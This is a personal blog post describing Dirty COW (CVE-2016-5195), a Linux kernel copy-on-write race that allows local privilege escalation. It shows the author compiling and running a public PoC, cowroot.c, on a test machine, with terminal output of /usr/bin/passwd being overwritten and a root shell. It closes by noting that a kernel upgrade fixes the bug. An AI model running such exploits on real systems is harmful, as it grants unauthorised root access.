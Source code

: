 Title:CVE 2016-5195 dirtycow
Date: 12-11-2016 19:20
category:security
tags:cve, security, exploit, test
meta:cve, security, exploit, test

<img class="align-left" src="/media/2016.12/cow.png" alt="Ðirtycow logo" width="162">

Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in the Linux
Kernel.
"[A race condition](https://en.wikipedia.org/wiki/Race_condition) was found in
the way the Linux kernel's memory subsystem
handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise
read-only memory mappings and thus increase their privileges on the system."
([Source: Red Hat](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

<!-- PELICAN_END_SUMMARY -->

So globally with the write code doing the right thing a unprivileged user can
get root permission on most GNU/Linux systems.
The satiric web site [dirtycow.ninja/](https://dirtycow.ninja/) was in the first
time create to make fun of people giving name to vulnerability even a [youtube
video](https://www.youtube.com/watch?v=kEsshExn7aE) was made. Nevertheless the
wiki of the website (on github) link to a [few
PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

I test one of this PoCs on my test computer. The exploits were not fully stable
at the time an my computer was sometime friezing just after getting root
privileges.

I used a modified version of the cowroot.c PoCs host on [a
gist](https://gist.github.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43).
First of all we compile the exploit code:

    :::text
    [maggick@computer_name dirtycow]$ gcc cowroot.c -o cowroot -pthread
    cowroot.c: In function ‘procselfmemThread’:
    cowroot.c:107:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
             lseek(f,map,SEEK_SET);
                     ^~~
    In file included from cowroot.c:27:0:
    /usr/include/unistd.h:337:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
     extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^~~~~
    cowroot.c: In function ‘main’:
    cowroot.c:144:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
         asprintf(&backup, "cp %s /tmp/bak", suid_binary);
         ^~~~~~~~
    cowroot.c:148:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
         fstat(f,&st);
         ^~~~~

The warning are not really important after the compilation we just launch the
exploit:

    [maggick@computer_name dirtycow]$ ./cowroot
    DirtyCow root privilege escalation
    Backing up /usr/bin/passwd to /tmp/bak
    Size of binary: 47224
    Racing, this may take a while..
    /usr/bin/passwd overwritten
    Popping root shell.
    Don't forget to restore /tmp/bak
    thread stopped
    thread stopped
    [root@computer_name dirtycow]# id
    uid=0(root) gid=1000(maggick) groups=1000(maggick)

And we got root privileges as planned. The exploit replace the
`/usr/bin/passwd` executable so we need to restore it with the one in
`/tmp/bak`.

In order to correct this vulnerability we just need to upgrade our kernel.

